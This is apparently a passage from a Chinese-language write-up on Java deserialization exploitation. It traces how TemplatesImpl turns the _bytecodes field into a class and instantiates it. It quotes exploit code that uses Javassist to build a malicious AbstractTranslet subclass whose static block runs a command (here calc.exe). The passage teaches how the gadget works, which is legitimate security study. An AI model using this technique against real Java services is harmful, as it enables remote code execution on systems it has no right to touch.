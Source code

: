 ```
            throw new TransformerConfigurationException(err.toString());
        }
    }
    catch (ClassFormatError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
    catch (LinkageError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
}
```

首先要保证`_bytecodes`不为空,不然会直接抛出一个异常

![image-20211223131857250](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211223131857250.png)

`_bytecodes`是一个字节数组,先继续往下

![image-20211223131946387](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211223131946387.png)

这里会将字节数组还原成class对象

所以对应了exp里面的

```
ClassPool pool = ClassPool.getDefault();
//pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
//String randomClassName = "EvilCat" + System.nanoTime();
//cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
```

用javassits创建一个新的类,然后插入一个命令执行的代码,最后转换成对象数组

不过注意在这还要判断它的父类是不是AbstractTranslet

![image-20211223132202881](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211223132202881.png)

![image-20211223132235664](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211223132235664.png)

然后进入if赋值最后相当于`_class[0]=我们想要恶意加载的类`

最后回到`getTransletInstance`方法

![image-20211223132525717](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211223132525717.png)

执行`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`对我们恶意加载的类实例化,执行static块的代码
